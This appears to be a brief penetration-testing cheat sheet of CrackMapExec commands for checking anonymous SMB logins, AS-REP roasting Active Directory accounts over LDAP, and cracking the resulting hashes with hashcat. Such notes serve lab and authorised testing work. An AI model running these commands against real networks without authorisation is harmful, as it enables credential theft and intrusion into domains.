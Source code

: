 ### SMB

check anon login. The output may also give information about the domain name and user.

```
crackmapexec smb 1.1.1.1 -u '' -p ''

crackmapexec smb 1.1.1.1 -u 'guest' -p ''
```

### LDAP

#### AS-REP

without authentication

```
crackmapexec ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
crackmapexec ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

with authentication

```
crackmapexec ldap 192.168.0.104 -u harry -p pass --asreproast output.txt

if failed domain name resolution:
cme ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name
```

then just crack the hashes

```
hashcat -m18200 output.txt wordlist
```